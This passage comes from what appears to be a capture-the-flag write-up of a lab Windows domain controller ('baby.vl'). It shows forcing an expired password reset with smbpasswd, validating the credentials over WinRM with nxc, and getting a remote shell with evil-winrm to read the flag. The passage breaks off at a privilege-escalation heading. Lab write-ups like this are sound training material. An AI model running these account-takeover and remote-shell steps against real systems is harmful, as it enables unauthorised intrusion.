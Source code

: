 We found one user that has `STATUS_PASSWORD_MUST_CHANGE`. 
```
echo '********.********' > user
```

After googling we find the blog [Resetting an Expired Password Remotely](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/) from `n00py` which lists various ways to reset a password.

Of those, we find that the tool `smbpasswd` works:
1. Use `apg` to generate New password
2. Overwrite new password
```bash
echo ******** > pass
```

```bash
smbpasswd -r baby.vl -U $(<user)
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user ********.********
```

## 5985 WinRM: Code execution
Since, [Windows Remote Management](https://learn.microsoft.com/en-us/windows/win32/winrm/portal?redirectedfrom=MSDN) is enabled on port 5985, we can get code execution.

First we check if the password is correct:
```bash
nxc winrm baby.vl -u user -p pass
WINRM       10.10.64.114    5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
WINRM       10.10.64.114    5985   BABYDC           [+] baby.vl\********:******** (Pwn3d!)
```

Then we get the flag vial `evil-winrm`
```bash
evil-winrm -u $(<user) -p $(<pass) -i baby.vl

Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\********\Documents> cd ..
*Evil-WinRM* PS C:\Users\********> cat Desktop\user.txt
VL{********************************}

```

## Misconfiguration: `SeBackupPrivilege` leads to Privilege Escalation
